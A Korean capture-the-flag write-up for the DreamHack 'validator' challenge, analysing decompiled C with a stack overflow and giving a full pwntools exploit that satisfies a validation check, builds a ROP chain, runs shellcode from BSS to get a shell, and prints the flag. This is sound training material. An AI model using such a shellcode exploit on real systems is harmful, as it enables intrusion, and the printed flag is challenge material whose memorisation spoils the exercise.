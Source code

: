 # [DreamHack] validator

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 취약한 인증 프로그램을 익스플로잇해 flag를 획득하세요!
>
> Release: [validator.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549584/validator.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160320930-5d1b2500-f700-48f4-b49e-272e034e19a8.png)

## Analysis

### main()

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[128]; // [rsp+0h] [rbp-80h] BYREF

  memset(s, 0, 0x10uLL);
  read(0, s, 0x400uLL);
  validate((__int64)s, 0x80uLL);
  return 0;
}
```

`read(0, s, 0x400uLL)`에서 BOF가 발생한다. `validate()`를 통과하는 조건을 맞춰주면 ROP를 수행할 수 있다.

### validate()

```c
__int64 __fastcall validate(__int64 string, unsigned __int64 length)
{
  unsigned int i; // [rsp+1Ch] [rbp-4h]
  int j; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 9; ++i )
  {
    if ( *(_BYTE *)((int)i + string) != correct[i] )
      exit(0);
  }
  for ( j = 11; length > j; ++j )
  {
    if ( *(unsigned __int8 *)(j + string) != *(char *)(j + 1LL + string) + 1 )
      exit(0);
  }
  return 0LL;
}
```

두 가지 조건을 통과하면 정상적으로 0을 반환한다.

첫 번째 조건은 `string[0]`부터 `string[9]`까지가 `correct[0]`~`correct[9]`와 같아야 한다.

![image](https://user-images.githubusercontent.com/102066383/160321659-400ddf58-d211-42d2-96f3-378b6cc2da5d.png)

두 번째 조건은 `string[11]`부터 `string[length + 1]`까지의 바이트가 1씩 감소해야 한다.

## Exploit

BSS에 실행 권한이 있으므로, BSS에 셸코드를 넣고 그 주소로 점프하면 셸을 획득할 수 있다.

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/validator_dist')
else:
    r = remote('host1.dreamhack.games', 9998)


def generate_payload(ropchain):
    # first condition
    payload = b'DREAMHACK!'
    payload += b' '

    # second condition
    for i in range(11, 0x82):
        payload += bytes([0x82 - i])

    # ROP
    payload = payload.ljust(0x88, b' ')
    payload += ropchain

    return payload


pop_rdi = 0x4006f3  # pop rdi; ret
pop_rsi_r15 = 0x4006f1  # pop rsi; pop r15; ret
pop_rdx = 0x40057b  # pop rdx; ret
bss = 0x601050  # empty bss
read_plt = 0x400470  # PLT of read()


# insert shellcode in bss
# read(0, bss, 100)
rop = p64(pop_rdi)
rop += p64(0)
rop += p64(pop_rsi_r15)
rop += p64(bss)
rop += p64(0)
rop += p64(pop_rdx)
rop += p64(100)
rop += p64(read_plt)

rop += p64(bss)  # jump to shellcode

payload = generate_payload(rop)
r.send(payload)

shellcode = asm(shellcraft.sh())
r.send(shellcode)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 9998: Done
[*] Switching to interactive mode
$ cat flag
DH{009bcc2d5c4b1b5af909a4f3c973d1ae}
```
